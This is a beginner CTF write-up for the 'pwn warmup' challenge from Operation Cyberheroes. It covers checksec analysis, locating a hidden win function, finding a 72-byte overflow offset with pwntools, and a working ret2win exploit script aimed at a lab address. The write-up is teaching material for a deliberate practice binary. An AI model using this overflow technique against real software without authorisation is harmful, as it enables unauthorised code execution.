





# CTF Writeup: pwn warmup

A beginner-friendly walkthrough for solving the **pwn warmup** binary exploitation challenge from Operation Cyberheroes.

---

## Challenge Information

* **Platform:** Operation Cyberheroes
* **Challenge Name:** `pwn warmup`
* **Category:** Binary Exploitation (Pwn)
* **Difficulty:** Easy / Warmup
* **Target Connection:** `10.5.14.225:30019`
* **Flag Format:** `OPUCC{flag}`



---

## 1. Initial Reconnaissance

We are provided with a downloadable ELF binary named `warmup` and a remote service address. Our first step is to analyze the security mitigations compiled into the binary using `checksec`:

```bash
checksec --file=warmup
```


### Security Mitigations:
* **Stack Canary:** `No canary found` — This means there is no random value protecting the stack's return address, making stack buffer overflows trivial to exploit.
* **NX (No-Execute):** `NX enabled` — The stack is non-executable, preventing direct shellcode injection. We must use a **ret2win** technique instead.
* **PIE (Position Independent Executable):** `No PIE` — Code addresses are static and predictable, allowing us to hardcode function memory addresses reliably.

---

## 2. Analyzing Binary Symbols & Functions

Next, we search the binary's symbol table to locate any hidden or uncalled functions using `objdump`:

```bash
objdump -t warmup | grep -iE 'win|flag|print'
```


### Output:
```text
000000000040127b g     F.text   00000000000000a4         win
```

We discovered a hidden `win` function located at memory address **`0x40127b`**. Because this function is never called during normal program flow, our objective is to hijack the instruction pointer via a buffer overflow and redirect execution directly into this function.

---

## 3. Finding the Buffer Overflow Offset

To find out how many bytes are required to fill the input buffer and overwrite the saved return address (`RIP`), we use `pwntools` locally to send a cyclic pattern and check the core dump crash.

```python
from pwn import *

p = process('./warmup')
p.sendlineafter(b'recruit:\n', cyclic(100))
p.wait()

core = p.corefile
faulty_value = core.read(core.rsp, 4)
offset = cyclic_find(faulty_value)
print(f"[*] Found offset: {offset}")
```


### Result:
The program crashed with an exact offset of **72** bytes.

---

## 4. Crafting the Exploit Script

With the offset (72 bytes) and the target address of the `win` function (`0x40127b`), we write our final Python exploit script using `pwntools` to connect to the remote server and trigger the exploit.

Create a file named `exploit.py`:

```python
from pwn import *

# Target connection details
host = '10.5.14.225'
port = 30019

# Establish remote connection
io = remote(host, port)

offset = 72
win_addr = 0x40127b

# Construct payload: 72 bytes of junk padding + address of win function
payload = b"A" * offset
payload += p64(win_addr)

# Send payload and switch to interactive terminal
io.sendline(payload)
io.interactive()
```

---

## 5. Exploitation & Capturing the Flag

Run the exploit script:

```bash
python3 exploit.py
```

### Execution Output:


* **Flag:** `OPUCC{y0ur_1st_pwn_ch4ll3ng3!!!!}`